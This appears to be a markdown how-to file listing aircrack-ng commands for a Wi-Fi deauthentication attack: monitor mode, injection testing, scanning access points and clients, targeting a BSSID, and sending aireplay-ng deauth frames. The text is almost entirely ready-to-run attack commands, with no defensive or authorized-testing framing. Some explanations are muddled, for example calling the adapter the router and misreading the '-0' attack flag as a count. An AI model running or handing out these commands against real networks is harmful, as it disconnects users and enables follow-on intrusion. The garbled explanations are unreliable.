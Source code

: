 # Deauthentication Attack
Set router to max power
```
sudo iwconfig wlan1mon txpower 30
```
Think about this:
```
sudo airmon-ng check kill
```
Put interface into Monitor mode:
```
sudo airmon-ng start wlan1
```
For list of attacks: (We want `0`)
```
aireplay-ng
```
Once it's in monitor mode, run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`
Then gather the info you need with this command to see live network traffic, enabling you to see all the devices on the network (The MAC addresses of all APs and clients) and then inevitably you'll see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients and the `Probes` should tell you what they're connected to.

Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz)
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```
The actual deauth: where `5` is the number of deauths, `0` is to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

## NOTE
You have to be on the same channel as the AP you're deauthing, change it with:
```
sudo iwconfig wlan1mon channel 149
```
